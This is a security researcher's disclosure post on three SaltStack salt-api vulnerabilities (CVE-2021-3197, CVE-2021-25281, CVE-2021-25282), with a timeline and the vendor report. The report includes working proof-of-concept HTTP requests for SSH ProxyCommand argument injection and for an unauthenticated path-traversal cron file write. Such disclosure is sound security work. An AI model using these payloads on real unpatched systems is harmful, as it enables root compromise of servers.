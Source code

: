 ```yaml
---
title:  "SaltStack API vulnerabilities"
layout: post
date:   2021-03-03
permalink: posts/saltapi-vulns
---
```


In November 2020 after seeing a pre-auth RCE (CVE-2020-16846, CVE-2020-25592) [get dropped](https://www.thezdi.com/blog/2020/11/24/detailing-saltstack-salt-command-injection-vulnerabilities) for Salt API, I wanted to find my own. This resulted in CVE-2021-3197, CVE-2021-25281 and CVE-2021-25282, which I detail in this post.

[Looking at the patch for CVE-2020-16846](https://gitlab.com/saltstack/open/salt-patches/-/blob/master/patches/2020/09/02/3002.patch#L32) you can see they have added a `_split_cmd` function that splits the arguments into a list, and removed the use of the `shell=True` option. While this was effective at preventing command injection through shell metacharacters, it still allowed an attacker to specify arbitrary arguments to the ssh command. By adding an SSH option after any of the POSTed ssh parameters - e.g.  `ssh_port=2222%09-o%20ProxyCommand="touch%20/tmp/rce"`, the argument injection could be turned into arbitrary command execution. The %09 is a tab character is used for seperation, however a %20 works just as well. This ended up as CVE-2021-3197. The patch release adds [a case sensitive check for "ProxyCommand"](https://github.com/saltstack/salt/blob/08fe46365f92583ea875f9e4a8b2cb5305b34e4b/salt/client/ssh/client.py#L72) in the arguments passed to SSH.

Unfortunately the November fix for CVE-2020-25592 made this call post authentication only, so I had a look through the other "clients" that can be passed to the /run endpoint. 
It turned out that `wheel_async` can still be used pre-authentication (assigned CVE-2021-25281). This gives the ability to run arbitrary wheel modules. After a quick look through these, I found the `pillar_roots.write` function could be used to write arbitrary files on the host through a path traversal (assigned CVE-2021-25282).  Interestingly, this is very similar to the function [file_roots.write](https://github.com/saltstack/salt/blob/08fe46365f92583ea875f9e4a8b2cb5305b34e4b/salt/wheel/file_roots.py#L98), which (I later realised) was fixed in `CVE-2020-11652`. The pillar_roots variant remained unfixed until I reported it.

Since the default Ubuntu install of Salt (in my test env) ran as root, the easiest way to turn this to code execution was to write a crontab. I promptly dusted my hands and sent the vulnerability report off to Salt. However after reviewing the patch notes I discovered there was an even better way to exploit it - CVE-2021-25283 discovered by Tencent Yunding Security Lab. More details on their method are [here](https://cloud.tencent.com/developer/article/1794370). Very nice!

## Timeline
It took a few hours total to find these after looking at patches for the last set of vulnerabilities. I reported them to Salt on 27/11/2020. Salt aimed for a Feb 4 release, however this slipped and they ended up releasing the patches and an [announcement](https://saltproject.io/security_announcements/active-saltstack-cve-release-2021-feb-25/) on the 25th of February, roughly 90 days after I reported the vulnerabilities.


## Details:

Here's a copy of the report I sent to Salt.

```
Authenticated argument injection in netapi salt-api SSH client

The fix for CVE-2020-16846 escapes the input to the netapi ssh client. However an attacker can still inject arguments using the %09 (tab) character, which are passed through to SSH invocations. For example, the following request will create the "/tmp/rce" file on the salt master. It does require valid credentials, which I have provided in the request.


POST /run HTTP/1.1
Host: 192.168.200.129
Content-Type: application/x-www-form-urlencoded
Content-Length: 165

client=ssh&roster=&tgt=*&fun=test.ping&ssh_user=test123&ssh_port=2222%09-o%20ProxyCommand="touch%20/tmp/rce"&ssh_priv=as`id`df&eauth=pam&username=user&password=user

This ends up executing the command :

ssh 192.168.200.131 -o KbdInteractiveAuthentication=no -o PasswordAuthentication=yes -o GSSAPIAuthentication=no -o ConnectTimeout=65 -o Port=2222 -o ProxyCommand=touch /tmp/rce -o IdentityFile=asdf -o User=user /bin/sh  << 'EOF' set -e set -u

which executes the command through the ProxyCommand argument to SSH. Other parameters passed through are also vulnerable such as ssh_priv and ssh_user, as long as they are not defined already in the roster file. Exploiting this also requires at least one roster host to be defined.




==================================

Unauthenticated arbitrary file write in salt-api

The wheel_async client does not check for authentication when it is called. This allows an arbitrary file write in conjunction with a path traversal in the pillar_roots.write function. As the salt-master runs as root by default it can be used to write a new crontab file, which will execute automatically on most linux systems. 

POC:
--

POST /run HTTP/1.1
Host: 192.168.200.129
Content-Length: 187
Content-Type: application/json;charset=UTF-8

{"token":"1","client":"wheel_async","fun":"pillar_roots.write",
"arg":[],
"kwarg": {"data":"* * * * * root /bin/bash -c \"touch /tmp/rce4\"\n","path":"../../../../etc/cron.d/saltrce4"}}


--
After a minute, check in /tmp/ for the rce4 file, which should have been created by the crontab. There are probably other ways to exploit this file write to obtain code execution.


```
